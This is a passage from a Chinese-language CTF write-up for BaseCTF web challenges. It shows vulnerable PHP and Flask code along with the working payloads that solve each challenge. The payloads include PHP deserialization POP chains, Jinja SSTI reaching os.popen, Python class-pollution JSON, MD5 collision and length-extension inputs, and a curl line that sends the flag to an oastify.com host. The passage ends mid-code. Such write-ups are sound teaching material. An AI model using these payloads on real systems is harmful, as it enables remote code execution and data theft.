










Aura 酱的礼物(url@)
<?php
highlight_file(__FILE__);
// Aura 酱，欢迎回家~
// 这里有一份礼物，请你签收一下哟~
$pen = $_POST['pen'];
if (file_get_contents($pen) !== 'Aura')
{
die('这是 Aura 的礼物，你不是 Aura！');
}
// 礼物收到啦，接下来要去博客里面写下感想哦~
$challenge = $_POST['challenge'];
if (strpos($challenge, 'http://jasmineaura.github.io') !== 0)
{
die('这不是 Aura 的博客！');
}
$blog_content = file_get_contents($challenge);
if (strpos($blog_content, '已经收到Kengwang的礼物啦') === false)
{
die('请去博客里面写下感想哦~');
}
// 嘿嘿，接下来要拆开礼物啦，悄悄告诉你，礼物在 flag.php 里面哦~
$gift = $_POST['gift'];
include($gift); file_get_contents()
语法：file_get_contents(path,include_path,context,start,max_length)
该函数是用于把文件的内容读入到一个字符串里的方法。
这个函数绕过方式有多种：
php://input伪协议绕过
- 将要GET的参数?xxx=php://input
- 用post方法传入想要file_get_contents()函数返回的值
data://伪协议绕过
- ?xxx=data://text/plain;base64,想要file_get_contents()函数返回的值的base64编码
- ?xxx=data:text/plain,(url编码的内容)
这里因为是POST传参所以采用data
strpos函数是返回需要查找的字符串在目标字符串的位置，这里要求为0，意味着必须在开头出现
POST
pen=data://text/plain,Aura&challenge=http://jasmineaura.github.io第三个绕过需要用file_get_contents传入challenge变量，这里考点为file_get_contents本来的用法，以及url跳转
本页面就有已经收到Kengwang的礼物啦的字样
所以传入challenge=http://jasmineaura.github.io@challenge.basectf.fun:22657/即可绕过
最后就是一个简单的文件包含
Payload:
POST
pen=data://text/plain,Aura&challenge=http://jasmineaura.github.io@challenge.basectf.fun:22657&gift=php://filter/convert.base64-encode/resource=flag.php你听不到我的声音
<?php
highlight_file(__FILE__);
shell_exec($_POST['cmd']); 没回显，本来想反弹shell，没成功，直接用bp的Collaborator外带出来
POST:
cmd=curl%2017698qgbtquwasnhu67e3mej1a71vsjh.oastify.com/`tac%20/flag`
ez_ser
<?php
highlight_file(__FILE__);
error_reporting(0);
class re{
public $chu0;
public function __toString(){
if(!isset($this->chu0)){
return "I can not believes!";
}
$this->chu0->$nononono;
}
}
class web {
public $kw;
public $dt;
public function __wakeup() {
echo "lalalla".$this->kw;
}
public function __destruct() {
echo "ALL Done!";
}
}
class pwn {
public $dusk;
public $over;
public function __get($name) {
if($this->dusk != "gods"){
echo "什么，你竟敢不认可?";
}
$this->over->getflag();
}
}
class Misc {
public $nothing;
public $flag;
public function getflag() {
eval("system('cat /flag');");
}
}
class Crypto {
public function __wakeup() {
echo "happy happy happy!";
}
public function getflag() {
echo "you are over!";
}
}
$ser = $_GET['ser'];
unserialize($ser);
?>
Pop链如下
<?php
highlight_file(__FILE__);
error_reporting(0);
class re{
public $chu0;
}
class web {
public $kw ;
}
class pwn {
public $dusk;
public $over;
}
class Misc {
public $nothing;
public $flag;
}
$a = new web();
$a->kw = new re();
$a->kw->chu0 = new pwn();
$a->kw->chu0->over = new Misc();
echo urlencode(serialize($a));
Payload:
?ser=O%3A3%3A%22web%22%3A1%3A%7Bs%3A2%3A%22kw%22%3BO%3A2%3A%22re%22%3A1%3A%7Bs%3A4%3A%22chu0%22%3BO%3A3%3A%22pwn%22%3A2%3A%7Bs%3A4%3A%22dusk%22%3BN%3Bs%3A4%3A%22over%22%3BO%3A4%3A%22Misc%22%3A2%3A%7Bs%3A7%3A%22nothing%22%3BN%3Bs%3A4%3A%22flag%22%3BN%3B%7D%7D%7D%7DReally EZ POP
<?php
highlight_file(__FILE__);
class Sink
{
private $cmd = 'echo 123;';
public function __toString()
{
eval($this->cmd);
}
}
class Shark
{
private $word = 'Hello, World!';
public function __invoke()
{
echo 'Shark says:' . $this->word;
}
}
class Sea
{
public $animal;
public function __get($name)
{
$sea_ani = $this->animal;
echo 'In a deep deep sea, there is a ' . $sea_ani();
}
}
class Nature
{
public $sea;
public function __destruct()
{
echo $this->sea->see;
}
}
if ($_POST['nature']) {
$nature = unserialize($_POST['nature']);
} Pop链：
<?php
class Sink
{
public $cmd;
}
class Shark
{
public $word;
}
class Sea
{
public $animal;
}
class Nature
{
public $sea;
}
$a = new Nature();
$a->sea = new Sea();
$a->sea->animal = new Shark();
$a->sea->animal->word = new Sink();
$a->sea->animal->word->cmd = "system('tac\${IFS}/flag');";
$tmp=urlencode(serialize($a));
$tmp = str_replace("word", "%00Shark%00word", $tmp); // 不要忘记修改前面的数字
$tmp = str_replace("cmd", "%00Sink%00cmd", $tmp);
echo $tmp;Payload:
POST:
nature=O%3A6%3A%22Nature%22%3A1%3A%7Bs%3A3%3A%22sea%22%3BO%3A3%3A%22Sea%22%3A1%3A%7Bs%3A6%3A%22animal%22%3BO%3A5%3A%22Shark%22%3A1%3A%7Bs%3A11%3A%22%00Shark%00word%22%3BO%3A4%3A%22Sink%22%3A1%3A%7Bs%3A9%3A%22%00Sink%00cmd%22%3Bs%3A25%3A%22system%28%27tac%24%7BIFS%7D%2Fflag%27%29%3B%22%3B%7D%7D%7D%7D值得一提的是因为Shark中的word和Sink的cmd为私有变量，所以要手动改变其url编码后的结果
cmd --> %00Sink%00cmd s:3 --> s:9数学大师
脚本题，注意除法取整而且要替换一下乘号和除号
import requests
from bs4 import BeautifulSoup
import re
import ast
def safe_eval(expression):
node = ast.parse(expression, mode='eval')
return eval(compile(node, '<string>', 'eval'), {"__builtins__": None}, {})
url = "http://challenge.basectf.fun:27436/"
headers = {
"Content-Type": "application/x-www-form-urlencoded",
"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36 Edg/128.0.0.0"
}
session = requests.session()
response = session.get(url)
for _ in range(50):
soup = BeautifulSoup(response.text, "lxml")
key_text = soup.find('body').text
match = re.search(r'\d+[+\-×÷]\d+', key_text)
if match:
calculation = match.group()
print(calculation)
if '÷' in calculation:
calculation = calculation.replace('÷', '//')
if '×' in calculation:
calculation = calculation.replace('×', '*')
result = safe_eval(calculation)
print(f"{calculation}={result}")
post_data = {"answer": f"{result}"}
response = session.post(url, data=post_data, headers=headers)
print(response.text)
if 'CTF' in response.text:
match = re.search(r'BaseCTF(.*)', response.text)
if match:
print(f"{match.group(0)[:-6]}")
exit(0)
所以你说你懂 MD5? (哈希长度拓展攻击)
<?php
session_start();
highlight_file(__FILE__);
// 所以你说你懂 MD5 了?
$apple = $_POST['apple'];
$banana = $_POST['banana'];
if (!($apple !== $banana && md5($apple) === md5($banana))) {
die('加强难度就不会了?');
}
// 什么? 你绕过去了?
// 加大剂量!
// 我要让他成为 string
$apple = (string)$_POST['appple'];
$banana = (string)$_POST['bananana'];
if (!((string)$apple !== (string)$banana && md5((string)$apple) == md5((string)$banana))) {
die('难吗?不难!');
}
// 你还是绕过去了?
// 哦哦哦, 我少了一个等于号
$apple = (string)$_POST['apppple'];
$banana = (string)$_POST['banananana'];
if (!((string)$apple !== (string)$banana && md5((string)$apple) === md5((string)$banana))) {
die('嘻嘻, 不会了? 没看直播回放?');
}
// 你以为这就结束了
if (!isset($_SESSION['random'])) {
$_SESSION['random'] = bin2hex(random_bytes(16)) . bin2hex(random_bytes(16)) . bin2hex(random_bytes(16));
}
// 你想看到 random 的值吗?
// 你不是很懂 MD5 吗? 那我就告诉你他的 MD5 吧
$random = $_SESSION['random'];
echo md5($random);
echo '<br />';
$name = $_POST['name'] ?? 'user';
// check if name ends with 'admin'
if (substr($name, -5) !== 'admin') {
die('不是管理员也来凑热闹?');
}
$md5 = $_POST['md5'];
if (md5($random . $name) !== $md5) {
die('伪造? NO NO NO!');
}
// 认输了, 看样子你真的很懂 MD5
// 那 flag 就给你吧
echo "看样子你真的很懂 MD5";
echo file_get_contents('/flag'); 加强难度就不会了?第一层可用数组绕过
apple[]=1&banana[]=2第二层转化为了string，此时数组会变成array无法绕过，可以利用后面的弱比较，让0e开头的字符串误以为科学计数法，转化为0
appple=QNKCDZO&banananana=QLTHNDT 第三层变成了强比较，可以使用fastcoll工具来得到一些MD5真实相等的值
先随便创建一个txt文件，然后将文件拖入fastcoll中得到两个MD5值相等的文件，然后使用php得出MD5值相等的俩字符串
<?php
function readmyfile($path){
$fh = fopen($path, "rb");
$data = fread($fh, filesize($path));
fclose($fh);
return $data;
}
$a = urlencode(readmyfile("D:\CTF\Tool\\fastcoll_v1.0.0.5.exe\drafr_msg1.txt"));
$b = urlencode(readmyfile("D:\CTF\Tool\\fastcoll_v1.0.0.5.exe\drafr_msg2.txt"));
if(md5((string)urldecode($a))===md5((string)urldecode($b))){
echo $a;
}
if(urldecode($a)!=urldecode($b)){
echo $b;
}apppple=hsad%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%C0%E9%CC%C5%03%0E%0E%D4%5D%BB%27%2A%B1%E4%AB%C0%23Vg%22u%05%95Z%1B%CA%80%8DS%0A%92%EC%BC%A3%08%F2%3E%EDf%FA%EB-ha%88%D3%98%7D%95E%F6%A1%1B%5B%7D%21y%A5%12f%B5H%F9%3C%2A%F7Lci%8Dg%FC%7B8y%CD%A3%8E%E4%E7%D5%0F%5EI%13%C8n%8A%86%F9%9FK_a%27%C1h%22%B5%0Atg%93%5E%96%95g%F9T%27%03K%04%8F%0D%CA%C8%A8W%1E%3C%84%9F%D6%AB%3D%BCT
&banananana=hsad%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%C0%E9%CC%C5%03%0E%0E%D4%5D%BB%27%2A%B1%E4%AB%C0%23Vg%A2u%05%95Z%1B%CA%80%8DS%0A%92%EC%BC%A3%08%F2%3E%EDf%FA%EB-ha%88S%99%7D%95E%F6%A1%1B%5B%7D%21y%A5%12%E6%B5H%F9%3C%2A%F7Lci%8Dg%FC%7B8y%CD%A3%8E%E4%E7%D5%0F%5E%C9%13%C8n%8A%86%F9%9FK_a%27%C1h%22%B5%0Atg%93%5E%96%95g%F9T%A7%02K%04%8F%0D%CA%C8%A8W%1E%3C%84%9FV%AB%3D%BCT第四层为哈希拓展攻击
参考文章：
浅析 MD5 长度扩展攻击 (MD5 Length Extension Attack)
使用工具：
对于原始文本的测量，题目给出了$_SESSION['random']的构造方式
<?php
$a = bin2hex(random_bytes(16)) . bin2hex(random_bytes(16)) . bin2hex(random_bytes(16));
echo $a."\n";
echo strlen($a)."\n";
name=%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%03%00%00%00%00%00%00admin&md5=f2f894abbd41c972a311332cfe76c6fe玩原神玩的
<?php
highlight_file(__FILE__);
error_reporting(0);
include 'flag.php';
if (sizeof($_POST['len']) == sizeof($array)) {
ys_open($_GET['tip']);
} else {
die("错了！就你还想玩原神？❌❌❌");
}
function ys_open($tip) {
if ($tip != "我要玩原神") {
die("我不管，我要玩原神！😭😭😭");
}
dumpFlag();
}
function dumpFlag() {
if (!isset($_POST['m']) || sizeof($_POST['m']) != 2) {
die("可恶的QQ人！😡😡😡");
}
$a = $_POST['m'][0];
$b = $_POST['m'][1];
if(empty($a) || empty($b) || $a != "100%" || $b != "love100%" . md5($a)) {
die("某站崩了？肯定是某忽悠干的！😡😡😡");
}
include 'flag.php';
$flag[] = array();
for ($ii = 0;$ii < sizeof($array);$ii++) {
$flag[$ii] = md5(ord($array[$ii]) ^ $ii);
}
echo json_encode($flag);
} 不知道$array的长度可以直接py爆破
payload = "len[0]=1"
with open("payload.txt", "w") as file:
for i in range(100):
file.write(payload)
file.write("\n")
payload += f"&len[{str(i+1)}]=1"
后面两个很好绕过，记得%要url编码
POST:
len[0]=1&len[1]=1&len[2]=1&len[3]=1&len[4]=1&len[5]=1&len[6]=1&len[7]=1&len[8]=1&len[9]=1&len[10]=1&len[11]=1&len[12]=1&len[13]=1&len[14]=1&len[15]=1&len[16]=1&len[17]=1&len[18]=1&len[19]=1&len[20]=1&len[21]=1&len[22]=1&len[23]=1&len[24]=1&len[25]=1&len[26]=1&len[27]=1&len[28]=1&len[29]=1&len[30]=1&len[31]=1&len[32]=1&len[33]=1&len[34]=1&len[35]=1&len[36]=1&len[37]=1&len[38]=1&len[39]=1&len[40]=1&len[41]=1&len[42]=1&len[43]=1&len[44]=1&m[0]=100%25&m[1]=love100%2530bd7ce7de206924302499f197c7a966最后根据给出加密后的 flag 数组，加密流程是把 flag 每⼀个字符的 ASCII 值和当前索引异或再取 md5 值，挨个输出，脚本爆破即可
from hashlib import md5
enc = ["3295c76acbf4caaed33c36b1b5fc2cb1", "26657d5ff9020d2abefe558796b99584", "73278a4a86960eeb576a8fd4c9ec6997",
"ec8956637a99787bd197eacd77acce5e", "e2c420d928d4bf8ce0ff2ec19b371514", "43ec517d68b6edd3015b3edc9a11367b",
"ea5d2f1c4608232e07d3aa3d998e5135", "c8ffe9a587b126f152ed3d89a146b445", "a97da629b098b75c294dffdc3e463904",
"a97da629b098b75c294dffdc3e463904", "66f041e16a60928b05a7e228a89c3799", "2838023a778dfaecdc212708f721b788",
"65b9eea6e1cc6bb9f0cd2a47751a186f", "9a1158154dfa42caddbd0694a4e9bdc8", "698d51a19d8a121ce581499d7b701668",
"f0935e4cd5920aa6c7c996a5ee53a70f", "7f39f8317fbdb1988ef4c628eba02591", "182be0c5cdcd5072bb1864cdee4d3d6e",
"07e1cd7dca89a1678042477183b7ac3f", "73278a4a86960eeb576a8fd4c9ec6997", "182be0c5cdcd5072bb1864cdee4d3d6e",
"9f61408e3afb633e50cdf1b20de6f466", "e369853df766fa44e1ed0ff613f563bd", "a5771bce93e200c36f7cd9dfd0e5deaa",
"f7177163c833dff4b38fc8d2872f1ec6", "67c6a1e7ce56d3d6fa748ab6d9af3fd7", "b53b3a3d6ab90ce0268229151c9bde11",
"e369853df766fa44e1ed0ff613f563bd", "67c6a1e7ce56d3d6fa748ab6d9af3fd7", "4c56ff4ce4aaf9573aa5dff913df997a",
"da4fb5c6e93e74d3df8527599fa62642", "c0c7c76d30bd3dcaefc96f40275bdc0a", "a3f390d88e4c41f2747bfa2f1b5f87db",
"c74d97b01eae257e44aa9d5bade97baf", "70efdf2ec9b086079795c442636b55fb", "70efdf2ec9b086079795c442636b55fb",
"6ea9ab1baa0efb9e19094440c317e21b", "7cbbc409ec990f19c78c75bd1e06f215", "98f13708210194c475687be6106a3b84",
"3c59dc048e8850243be8079a5c74d079", "4e732ced3463d06de0ca9a15b6153677", "02e74f10e0327ad868d138f2b4fdd6f0",
"35f4a8d465e6e1edc05f3d8ab658c551", "28dd2c7955ce926456240b2ff0100bde", "43ec517d68b6edd3015b3edc9a11367b"]
flag = ''
for i in range(45):
for c in range(127):
if md5(str(c ^ i).encode()).hexdigest() == enc[i]:
flag += chr(c)
break
print(flag)
复读机(SSTI)
过滤了很多东⻄，⽽且要求传⼊的字符串必须以 BaseCTF{ 开头，还会检测括号匹配。这⾥使⽤⼯具 Fenjing，本地先搭⼀个可以被 SSTI 的服务器，然后⼿动把过滤的字符串都试出来，再⽤Fenjing 跑。
import random
from jinja2 import Template
from flask import Flask, request, render_template_string
app = Flask(__name__)
blacklist = ['{{', '}}', '__', '.', '*', '+', '-', '/', '"', ':', '\\',
'class', 'base', 'mro', 'init', 'global', 'builtin', 'config', 'request',
'lipsum', 'cycler', 'url_for', 'os', 'pop', 'format', 'replace', 'reverse'
]
@app.route("/", methods=["GET", "POST"])
def index():
name = request.args.get("name", "guest")
if any(i in name for i in blacklist):
return "error"
t = Template("Hello " + name)
return t.render()
if __name__ == "__main__":
app.run(host="0.0.0.0", port=5000)
Payload
fenjing:
python -m fenjing crack --url http://IP:5000/ --method GET --inputs name
POST:
flag=BaseCTF{%set in='_'~'_'~'i''nit'~'_'~'_'%}{%set gl='_'~'_'~'g''lobals'~'_'~'_'%}{%set bu='_'~'_'~'b''uiltins'~'_'~'_'%}{%set im='_'~'_'~'import'~'_'~'_'%}{%set da='OS'|lower%}{%set ca='%c%c%c%c%c%c%c%c%c'%(99,97,116,32,47,102,108,97,103)%}{%print joiner[in][gl][bu][im](da)['p''open'](ca)['read']()%}ez_php_jail
?Jail[by.Happy=highlight_file(glob("/f*")[0]);flag直接读取不就行了？(php原生类)
<?php
highlight_file('index.php');
# 我把flag藏在一个secret文件夹里面了，所以要学会遍历啊~
error_reporting(0);
$J1ng = $_POST['J'];
$Hong = $_POST['H'];
$Keng = $_GET['K'];
$Wang = $_GET['W'];
$dir = new $Keng($Wang);
foreach($dir as $f) {
echo($f . '<br>');
}
echo new $J1ng($Hong);
?>Payload
?K=DirectoryIterator&W=/secret/
?K=SplFileObject&W=/secret/f11444g.phpBack to the future(git泄露)
推荐使用GitHacker
利用工具把这个项目拉下来
githacker --url http://challenge.basectf.fun:49240/ --output back-future使用git log查看提交记录

可以看到 9d85f10e0192ef630e10d7f876a117db41c30417 这个提交, 我们可以切到那一次提交
切换到特定提交：
你可以使用提交的哈希值
git checkout 9d85f10e0192ef630e10d7f876a117db41c30417或者
git reflog
git reset --hard 9d85f10圣钥之战1.0(python 原型链污染)
/read
from flask import Flask,request
import json
app = Flask(__name__)
def merge(src, dst):
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)
def is_json(data):
try:
json.loads(data)
return True
except ValueError:
return False
class cls():
def __init__(self):
pass
instance = cls()
@app.route('/', methods=['GET', 'POST'])
def hello_world():
return open('/static/index.html', encoding="utf-8").read()
@app.route('/read', methods=['GET', 'POST'])
def Read():
file = open(__file__, encoding="utf-8").read()
return f"J1ngHong说：你想read flag吗？
那么圣钥之光必将阻止你！
但是小小的源码没事，因为你也读不到flag(乐)
{file}
"
@app.route('/pollute', methods=['GET', 'POST'])
def Pollution():
if request.is_json:
merge(json.loads(request.data),instance)
else:
return "J1ngHong说：钥匙圣洁无暇，无人可以污染！"
return "J1ngHong说：圣钥暗淡了一点，你居然污染成功了？"
if __name__ == '__main__':
app.run(host='0.0.0.0',port=80)看到index.html源码有张图片
<!DOCTYPE html>
<html lang="zh-CN">
<head>
<meta charset="UTF-8">
<title>J1ngHong's Message</title>
</head>
<body>
<h1>J1ngHong说：这是圣钥，纯净无暇，不能污染，但是你可以去read那里找一下flag~</h1>
<img src="/static/1.jpeg" alt="1.jpeg">
</body>
</html>此时http://domain/static/xxx只能访问到文件系统当前目录下static目录中的xxx文件，并且不存在如目录穿越的漏洞
污染该属性为当根目录。这样就能访问到根目录下的flag文件了
GET /pollute HTTP/1.1
Host: challenge.basectf.fun:27598
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Content-Type: application/json
Content-Length: 59
{"__init__":{"__globals__":{"app":{"_static_folder":"/"}}}}官方wp
直接进/read看源码，然后进/flag进行post方法传参一个json的payload：
{"__init__" : {"__globals__" : {"__file__":"/flag"}}}然后去/read就有flag了。
从CISCN2024的sanic引发对python“原型链”的污染挖掘
Jinja Mark(原型链污染+ssti)
访问index目录 是一个过滤了花括号的ssti注入 不过测试49 得到hint magic目录 要求传入json
访问flag目录 得到hint
你不会以为这里真的有flag吧？
想要flag的话先猜猜我的幸运数字
用POST方式把 lucky_number 告诉我吧，只有四位数哦猜出幸运数字返回了 magic的源码 python原型链污染
BLACKLIST_IN_index = ['{','}']
def merge(src, dst):
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)
@app.route('/magic',methods=['POST', 'GET'])
def pollute():
if request.method == 'POST':
if request.is_json:
merge(json.loads(request.data), instance)
return "这个魔术还行吧"
else:
return "我要json的魔术"
return "记得用POST方法把魔术交上来"这里对应的merge函数就是python中对属性值控制的一个操作，我们来简单的解释一下：merge中我们结合nodejs的merge来理解，就是将源参数赋值到目标参数。
然后对src中的键值对进行了遍历，然后检查dst中是否含有__getitem__属性，以此来判断dst是否为字典。如果存在的话，检测dst中是否存在属性k且value是否是一个字典，如果是的话，就继续嵌套merge对内部的字典再进行遍历，将对应的每个键值对都取出来。如果不存在的话就将src中的value的值赋值给dst对应的key的值。
如果dst不含有getitem属性的话，那就说明dst不是一个字典，就直接检测dst中是否存在k的属性，并检测该属性值是否为字典，如果是的话就再通过merge函数进行遍历，将k作为dst，v作为src，继续取出v里面的键值对进行遍历。
所以在/magic路由下污染jinja的语法标识符，将”,“修改为”<<”,”>>”或者其他不影响ssti注入的符号，具体内容如下，传入后去/index进行无过滤的ssti注入即可
{
"__init__" : {
"__globals__" : {
"app" : {
"jinja_env" :{
"variable_start_string" : "<<","variable_end_string":">>"
}
}
}
}
}修改后正常ssti即可 大部分都没有ban
Payload:
flag=<<cycler.__init__.__globals__.os.popen('tac /flag').read()>>Lucky Number(原型链污染plus)
访问flag目录得到
你不会以为这里真的有flag吧？
想要flag的话先提交我的幸运数字5346
但是我的主人觉得我泄露了太多信息，就把我的幸运数字给删除了
但是听说在heaven中有一种create方法，配合__kwdefaults__可以创造出任何事物，你可以去/m4G1c里尝试着接触到这个方法
下面是前人留下来的信息，希望对你有用
from flask import Flask,request,render_template_string,render_template
from jinja2 import Template
import json
import heaven
def merge(src, dst):
for k, v in src.items():
if hasattr(dst, '__getitem__'):
if dst.get(k) and type(v) == dict:
merge(v, dst.get(k))
else:
dst[k] = v
elif hasattr(dst, k) and type(v) == dict:
merge(v, getattr(dst, k))
else:
setattr(dst, k, v)
class cls():
def __init__(self):
pass
instance = cls()
BLACKLIST_IN_index = ['{','}']
def is_json(data):
try:
json.loads(data)
return True
except ValueError:
return False
@app.route('/m4G1c',methods=['POST', 'GET'])
def pollute():
if request.method == 'POST':
if request.is_json:
merge(json.loads(request.data), instance)
result = heaven.create()
message = result["message"]
return "这个魔术还行吧
" + message
else:
return "我要json的魔术"
return "记得用POST方法把魔术交上来"
#heaven.py
def create(kon="Kon", pure="Pure", *, confirm=False):
if confirm and "lucky_number" not in create.__kwdefaults__:
return {"message": "嗯嗯，我已经知道你要创造东西了，但是你怎么不告诉我要创造什么？", "lucky_number": "nope"}
if confirm and "lucky_number" in create.__kwdefaults__:
